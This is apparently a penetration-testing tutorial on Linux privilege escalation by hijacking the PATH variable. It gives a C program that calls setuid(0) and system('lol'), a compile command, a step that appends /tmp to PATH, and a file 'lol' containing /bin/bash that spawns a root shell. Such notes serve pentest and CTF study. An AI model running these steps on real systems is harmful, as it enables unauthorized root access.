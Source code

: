 If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file).

Typically the PATH will look like this:
```
root@ubuntu:/home/elgazzar/tools# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

If we type “lol” to the command line, these are the locations Linux will look in for an executable called lol. As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

>the main idea is creating a compileable script runnig spasfic command (ex, lol) and modify the ```PATH``` variable to include our directory that contain our compileable script that runnig our command (lol).

STEPS
--
1. Creat our script `path.c`:
```
#include <unistd.h>
void main(){
  setuid(0);
  setgid(0);
  system("lol");
}
```
2. In order to make it excutable:
```
gcc path.c -o path -w
```
>NOTE >>> if we write ```lol``` in the terminal, we will get an error indicating the command not found.

3. We add a writable directory within the `PATH` variable (for example, ```/tmp```)
```
export PATH=$PATH:/tmp
```
So the PATH variable will look like this:
```
root@ubuntu:/home/elgazzar/tools# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/tmp
```

4. Go to the `/tmp` to creat our file named `lol` and add to it `/bin/bash`:
```
$ cat lol
/bin/bash
```
5. Go to the excutable ```path``` file and run it:
```
./path
```
Finally, we got the root access.










